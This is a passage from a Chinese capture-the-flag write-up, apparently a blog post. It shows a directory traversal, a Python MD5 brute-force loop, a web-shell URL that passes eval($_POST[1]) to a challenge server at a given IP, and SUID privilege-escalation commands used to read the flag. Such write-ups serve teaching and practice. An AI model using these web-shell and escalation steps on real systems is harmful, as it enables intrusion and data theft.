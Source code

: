 返回这个，成功修改

```
{"login":true,"type":"admin"} {"alertData":"\u4fee\u6539\u6210\u529f","location":"\/?c=admin","alertFlag":1}
```

登录root，发现有个下载的界面

![image-20220413232608158](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204192246096.png)

抓包，尝试读取文件内容,存在目录穿越的漏洞

![image-20220413232717900](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204192246504.png)

这个哈希只有爆破了

这个字符串只能一个个试，跑得有点久

```python
from hashlib import md5
md="3fde6bb0541387e4ebdadf7c2ff31123"
str="123456789zxcvbnmasdfghjklqwertyuiop"
flag=""
for i in str:
    for j in str:
        for k in str:
            for m in str:
                for n in str:
                    for a in str:
                        flag=i+j+k+m+n+a
                        if md5(flag.encode()).hexdigest()==md:
                            print(flag)
                            break
```

得到`1q2w3e`

直接上蚁剑

```
http://1.14.71.254:28144/phpinfo.php?pass_31d5df001717=1q2w3e&cc=eval($_POST[1]);
```

虚拟终端没有权限，只能提取了

利用`SUID`提权

```
# 搜索 SUID file 可执行文件
find / -type f -perm /4000 2>/dev/null
# 利用 sed 命令查看 flag
/bin/sed '1p' /flag
```

![image-20220413233141557](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204192246828.png)

## MultistaeAgency
